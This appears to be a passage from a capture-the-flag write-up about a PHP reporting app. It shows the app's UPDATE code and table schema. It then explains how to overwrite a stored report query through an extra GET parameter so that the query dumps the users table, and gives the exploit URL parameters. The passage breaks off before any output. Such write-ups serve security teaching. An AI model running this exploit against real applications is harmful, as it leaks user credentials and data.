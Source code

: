 ```php

    $query = "UPDATE `reports` " .
      "SET " . join($set, ', ') . ' ' .
      "WHERE `id`='" . mysqli_real_escape_string($db, $_REQUEST['id']) . "'";
    print htmlentities($query);

    $result = mysqli_query($db, $query);
?>
```

The vulnerability that you exploit is that for every column in the results of the query if you pass it as a `GET` parameter, it will be updated. The page form only provides us with the `name` and `detail` fields to update, but we know that table has more columns. From `sprusage.sql`:

```sql
CREATE TABLE `reports` (
  `id` varchar(36) NOT NULL,
  `name` varchar(64) NOT NULL,
  `description` text,
  `query` text NOT NULL,
  PRIMARY KEY (`id`)
) ENGINE=InnoDB DEFAULT CHARSET=latin1;
```
 
So if we pass a new query string as the `query` parameter to `edit.php`, we can overwrite query. So lets dump the `users` table with the following URL parameters:

```
edit.php?\
   id=031412db-0f8e-495b-b1b3-e5ede942566b&\
   name=a&\
   description=a&\
   query=SELECT%20*%20from%20users
```

Now using that report id in the `view.php` page, we see the following


[no]: yes